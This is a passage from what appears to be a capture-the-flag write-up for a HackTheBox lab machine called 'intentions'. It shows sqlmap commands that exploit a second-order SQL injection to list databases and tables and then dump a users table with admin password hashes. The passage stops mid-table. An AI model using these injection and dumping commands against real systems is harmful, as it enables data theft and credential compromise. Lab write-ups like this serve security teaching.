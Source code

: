 Exploiting the vulnerability revealed a database named `intentions` and a couple interesting tables like `personal_access_tokens` and `users`.

```bash
> sqlmap -r gallery_genres.req --level 5 --risk 3 --second-req gallery_feed.req --batch --tamper=space2comment --threads 10 --dbs

...snip...
[21:14:00] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] intentions
...snip...

> sqlmap -r gallery_genres.req --level 5 --risk 3 --second-req gallery_feed.req --batch --tamper=space2comment --threads 10 -D intentions --tables

...snip...
[21:16:57] [INFO] fetching tables for database: 'intentions'
Database: intentions
[4 tables]
+------------------------+
| gallery_images         |
| migrations             |
| personal_access_tokens |
| users                  |
+------------------------+
...snip...
```

Dumped the `users` table and retrieved information for two admin users: `steve` and `greg`, including their corresponding password hashes. The password hashes are encrypted using bcrypt with 10 iterations, which means that decrypting wouldn't be practical.

```bash
> sqlmap -r gallery_genres.req --level 5 --risk 3 --second-req gallery_feed.req --batch --tamper=space2comment --threads 10 -D intentions -T users --dump

Database: intentions
Table: users
[33 entries]
+----+--------------------------+-------+-------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+
| id | name                     | admin | email                         | genres                                                                                                                                                          | password                                                     | created_at          | updated_at          |
+----+--------------------------+-------+-------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------------------------------+---------------------+---------------------+
| 1  | steve                    | 1     | steve@intentions.htb          | food,travel,nature                                                                                                                                              | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 2023-02-02 17:43:00 | 2023-02-02 17:43:00 |
| 2  | greg                     | 1     | greg@intentions.htb           | food,travel,nature                                                                                                                                              | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m | 2023-02-02 17:44:11 | 2023-02-02 17:44:11 |
| 3  | Melisa Runolfsson        | 0     | hettie.rutherford@example.org | food,travel,nature
```

